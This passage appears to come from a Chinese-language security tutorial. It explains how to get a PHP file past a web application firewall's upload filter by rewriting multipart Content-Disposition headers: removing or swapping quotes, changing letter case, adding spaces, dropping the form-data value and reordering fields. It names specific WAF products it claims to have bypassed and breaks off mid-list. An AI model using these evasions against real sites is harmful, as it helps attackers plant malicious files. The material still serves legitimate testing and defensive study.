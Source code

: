  

 

## 4绕过

 


 获取文件名的地方在Content-Disposition: form-data; name="file_x"; filename="xx.php"和Content-Type里，所以绕过的地方也就在这两个地方了。

 

**4.1去掉引号**

 

Content-Disposition: form-data; name=file_x; filename="xx.php"
 Content-Disposition: form-data; name=file_x; filename=xx.php
 Content-Disposition: form-data; name="file_x"; filename=xx.php

 

 

**4.2 双引号变成单引号**

 

Content-Disposition: form-data; name='file_x'; filename='xx.php'

单引号、双引号、不要引号，都能上传。

 

**4.3 大小写**

 

对这三个固定的字符串进行大小写转换

- Content-Disposition
- name
- filename

比如name转换成Name，Content-Disposition转换成content-disposition。两年前，拿它绕过安全狗的上传，不知道现在如何。

 

**4.4 空格**

 

在: ; =添加1个或者多个空格，不过测试只有filename在=前面添加空格，上传失败。在filename=后面添加空格，截止到2017年10月04日还能绕过「某盾」WAF。

 

**4.5 去掉或修改Content-Disposition值**

 

有的WAF在解析的时候，认为Content-Disposition值一定是form-data，造成绕过。两年前，拿它绕过安全狗的上传，不知道现在如何。

Content-Disposition: name='file_x'; filename='xx.php'

 

 

**4.6 交换name和filename的顺序**
